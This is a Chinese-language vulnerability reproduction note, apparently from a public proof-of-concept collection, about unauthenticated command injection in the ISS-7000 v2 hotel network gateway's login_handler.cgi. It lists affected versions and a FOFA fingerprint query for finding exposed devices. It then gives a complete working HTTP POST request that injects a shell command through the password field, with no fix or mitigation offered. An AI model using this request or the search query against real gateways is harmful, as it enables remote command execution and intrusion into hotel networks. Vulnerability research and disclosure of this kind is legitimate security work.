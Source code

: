 # 瀚霖科技股份有限公司ISS-7000 v2网关login_handler.cgi存在命令执行漏洞

# 一、漏洞简介
 ISS-7000 v2网络网关服务器是台高性能的网关，提供各类酒店网络认证计费的完整解决方案。由于智慧手机与平板电脑日渐普及，人们工作之时开始使用随身携带的设备，因此无线网络也成为网络使用者基本服务的项目。ISS-7000 v2可登录300至1000终端设备同时上网，并发量是一般设备的好几倍。为了提供安全上网服务，本公司专利技术所设计的动态使用者帐户生成器，能避免非使用者侵入酒店内部网络。

# 二、影响版本
1.00.06 和1.00.08

# 三、资产测绘
    - fofa `<font style="color:rgb(221, 17, 68);">body="css/login_form_style-06.css"</font>`
+ 特征

![1731053389608-53172b55-f85a-4160-90a1-a46437c9e921.png](./img/2eQP4LJ8jemsjq4j/1731053389608-53172b55-f85a-4160-90a1-a46437c9e921-708438.png)

# 四 、漏洞复现
```java
POST /login_handler.cgi HTTP/1.1
Host: 
Content-Length: 79
Content-Type: application/x-www-form-urlencoded
Connection: close

username=admin&password=admin;id;&uilng=3&button=%E7%99%BB%E5%85%A5&Signin=
```

![1731053435815-51591c43-d512-4214-a447-edfb19d54653.png](./img/2eQP4LJ8jemsjq4j/1731053435815-51591c43-d512-4214-a447-edfb19d54653-365176.png)



> 更新: 2024-11-27 10:04:11  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zburq1ug9szxzm22>